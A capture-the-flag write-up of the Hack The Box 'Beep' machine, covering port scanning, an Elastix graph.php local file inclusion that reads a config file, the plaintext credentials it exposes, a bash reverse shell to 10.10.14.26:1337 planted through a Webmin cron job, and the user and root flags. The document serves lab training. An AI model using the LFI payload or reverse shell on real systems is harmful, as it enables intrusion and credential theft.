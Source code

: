 # Beep
> Write-up author: jon-brandy

## Lesson learned:
- Directory listing using dirbuster.
- Exploiting Elastix webserver ('graph.php', LFI).
- 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c0ed88ed-9dbd-460d-b284-b95980734554)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.7 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 22:16 PDT
Stats: 0:06:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.24% done; ETC: 22:22 (0:00:01 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.023s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS LOGIN-DELAY(0) AUTH-RESP-CODE APOP EXPIRE(NEVER) RESP-CODES PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) USER TOP UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN Completed STARTTLS OK NAMESPACE URLAUTHA0001 RENAME QUOTA MULTIAPPEND LIST-SUBSCRIBED IMAP4rev1 BINARY CATENATE LITERAL+ IMAP4 CONDSTORE MAILBOX-REFERRALS NO ACL ID SORT RIGHTS=kxte THREAD=REFERENCES THREAD=ORDEREDSUBJECT SORT=MODSEQ UNSELECT ATOMIC ANNOTATEMORE LISTEXT IDLE UIDPLUS X-NETSCAPE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2023-08-30T05:20:05+00:00; -1s from scanner time.
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 399.28 seconds
```

1. Interesting the machine opens many tcp ports, since the machine runs a web application let's run dirbuster.

> RESULT - WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18f63fec-cbd5-4016-80c5-f3712a82359d)


> RESULT - DIRBUSTER

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19e25d20-b5ff-40ee-a0ac-af483f77066b)


2. Confused it won't open the web app, to solve this i tried to modify the minimum TLS version. (It's possible that the TLS version of our browser is higher than what the browser supports).

> CHANGING THE TLS MINIMUM VERSION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f86d50f5-95dc-42c5-b1de-665bd5ba6c7f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1dc303de-f985-4c51-9848-95bb0678adce)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5f1543a-8483-4ba0-9b73-b4d86711604b)


3. Turns out elastix has many vuln history.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27776557-8c7d-44e7-8a68-8a015152663e)


4. Since we don't know the elastix version, but things to note here the FreePBX 2.10.0 used with the Elastix 2.2.0 is vulnerable to command injection.
5. But sadly, after opened the `admin` directory, it renders the FreePBX web service, but the version is below 2.10.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c63da729-e37b-4029-87fd-4a1aa9ee241c)


6. For port 10000, it opens a webmin login page.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/986d1c1f-4a52-4166-a681-5ed271bba894)


7. Based from the metasploit, the closest one must be the LFI vuln, since we can run directory listing (kinda guessing, never doing this in pentesting 🙏).
8. Reading the exploitdb [documentation](https://www.exploit-db.com/exploits/37637), we can use --> `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` whether the webapp is vulnerable to LFI or not.

> RESULT - It is vulnerable.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9d0d5bee-09e0-4772-ad6c-dc7561b4d706)


9. It exposes many creds for AMPortal and it's not clear which one we need to use for a certain login portal.
10. Here's the creds i got so far:

```
root:jEhdIekWmdjE
admin:Password
admin:amp111
admin:jEhdIekWmdjE
root:passw0rd 
```

> TIME SKIP, FOUND THE CORRECT CREDS FOR /ADMIN -> admin:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9761abb4-5c93-4043-83b2-6a8bc4f917af)


> FOR THE WEBMIN --> root:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/49e455ca-1b4b-4241-a14e-5ad30711449b)


11. Seems our interest now is in the webmin page, since we're logged in as root, we can scheduled command and cron jobs.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf6a7ed7-430d-4428-bc95-5c72b8a0cc4f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a75523b6-17ec-450b-a870-d14ea451b2c9)


12. Awesome, we can add our revere shell payload here, I used this template:

```
Set a listener on port 1337.

PAYLOAD:
sh -i >& /dev/tcp/10.10.14.26/1337 0>&1

WHAT TO SEND:
bash -c 'sh -i >& /dev/tcp/10.10.14.26/1337 0>&1'
```

> RESULT - need to wait until 09:45

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a514f8b-87a5-4320-b44c-49feb42eaede)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ea1d275e-9510-449d-b264-681384d89ac5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8bec72ab-cda9-4c7e-9717-213f4f494626)


13. Got the shell!

> GETTING USER FLAG AND ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/750a640b-735f-46aa-a279-6604f9690d56)


## USER FLAG

```
bc89af94b308f47d87fe1552c5506452
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a44b4cd5-873e-4c8a-8e4e-c704f1a8c823)


## ROOT FLAG

```
6688ccf3476b73a96f40e1d5210feed0
```
